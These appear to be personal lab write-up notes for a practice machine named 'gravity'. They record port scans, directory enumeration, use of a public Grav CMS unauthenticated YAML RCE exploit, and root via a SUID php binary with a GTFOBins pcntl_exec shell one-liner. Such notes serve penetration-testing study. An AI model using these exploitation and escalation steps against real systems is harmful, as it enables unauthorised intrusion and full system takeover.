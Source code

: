 ### Enumeration
```
IP=192.168.187.12
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p22,80 -A $IP
```
#### Ports 
- 22
	- OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
- 80
	- Apache httpd 2.4.41
### Foothold
- 80
	- Default
		- ![[Pasted image 20240627140318.png]]
	- /grav-admin
		- ![[Pasted image 20240627140332.png]]
	- Google grav admin exploit
		- exploitdb 49973
			- unauthenticated yaml RCE
			- Edit target IP
			- Edit base64 command to have IP and port
			- Leads to RCE
	- dirsearch -u http://$IP
		- nothing
	- dirsearch -u http://$IP/grav-admin
		- /admin
			- ![[Pasted image 20240627141038.png]]
			- admin:admin  -  failed
		- /backup
			- forbidden
		- /bin
			- forbidden
		- /assets
		- /cache
		- /login
		- /robots.txt
			- ![[Pasted image 20240627141102.png]]
### PE
#### Linux
- www-data
	- id
		- uid=33(www-data) gid=33(www-data) groups=33(www-data)
	- sudo -l
		- needs password
	- uname -a
		- `Linux gravity 5.4.0-146-generic #163-Ubuntu SMP Fri Mar 17 18:26:02 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux`
	- capabilities
		- none
	- suid
		- /usr/bin/php7.4
		- GTFOBins for php
		- `CMD="/bin/sh"
		- `./php -r "pcntl_exec('/bin/sh', ['-p']);"`
			- `/usr/bin/php7.4 -r "pcntl_exec('/bin/sh', ['-p']);"`
		- now we are rooted
		- ![[Pasted image 20240627142438.png]]
	- linpeas
### Lessons Learned
